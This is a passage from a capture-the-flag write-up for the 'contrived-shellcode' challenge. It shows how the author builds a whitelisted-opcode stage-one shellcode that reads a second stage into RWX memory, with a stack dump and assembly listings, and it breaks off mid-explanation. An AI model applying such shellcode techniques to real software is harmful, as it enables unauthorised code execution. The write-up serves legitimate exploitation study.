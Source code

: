 With this approach working, we'll need to develop our shellcode for this
problem. Reading in a second stage shellcode would be the best approach since
the buffer allocates ``0x1000`` bytes of ``RWX`` memory. We can just read in a
second-stage shellcode that is not bound by the original whitelist.

```c  
unsigned char* code = mmap(NULL, 0x1000, PROT_EXEC|PROT_READ|PROT_WRITE,
MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);  
```

To create our stage1 ``read shellcode``, we will need to set the registers to
the following:

- rax: 0 (SYS_read)  
- rdi: 0 (stdin)  
- rsi: address of RWX memory  
- rdx: large enough value to write new shellcode (past RWX up into current instruction)

Examining the state of the stack, it appears that if we ``pop rsi`` three
times, the third pop will pick up the address of the RWX memory.

```  
│────────────────────────────────────────────────────────────────────────────────────────  
│pwndbg> stack  
│00:0000│ rsp 0x7fffb1516a98 —▸ 0x560566b23295 (main+155) ◂— mov eax, 0  
│01:0008│     0x7fffb1516aa0 ◂— 0xf700000000  
│02:0010│     0x7fffb1516aa8 —▸ 0x7f2d4dd61000 ◂— add al, 0xf /*
0xf040f040f040f04 */  
```

With this knowledge, our basic shellcode might look like the following.

```  
mov rdx, 0x1fb  /* length   */  
pop rsi  
pop rsi  
pop rsi         /* RWX memory &/  
mov rdi, 0x0    /* stdin    */  
mov rax, 0x0    /* SYS_read */  
syscall         /* executes read(rdi=stdin, rsi=RWX, rdx=200) */  
```

What we need to do next is to order these by the value of the assembly
instructions. For example, ``pop rsi`` is ``0x5e`` and ``mov rdi`` is
``0xbf``. So we will need to add eax up to ``0x5e (pop rsi)``, insert the
instruction at [rip], then add eax by ``(0xbf-0x5e)`` to get ``eax=0xbf (mov
rdi)`` and insert the instruction. Note, the binary only accepts 0x100 bytes
of shellcode. So choosing the right instructions and order is important (and
where I spent most of my time refining a solution.) At one point, I [patched
the binary](https://github.com/tj-oconnor/ctf-
writeups/blob/main/tamu_ctf_23/contrived-shellcode/contrived-shellcode-patch)
to accept 0x200 bytes so that I could test my approach. Seeing it succeed on
the patched binary gave me the final push to work through and reduce the
shellcode size to 233 bytes. The final order I developed was:

```  
pop rsi (0x5e)                           /* pop 1st stack value  */  
pop rsi (0x5e)                           /* pop 2nd stack value  */  
pop rsi (0x5e)               /* sets rsi = RWX.      */  
mov rdi, 0x0    (0xbf)       /* rdi = 0x0 (stdin)    */  
mov rdx, 0x1fb  (0x1fbba)    /* rdx = 0x1fb (len)    */  
sub rax, rax    (0xc02948)   /* rax = 0x0 (SYS_read) */  
```  
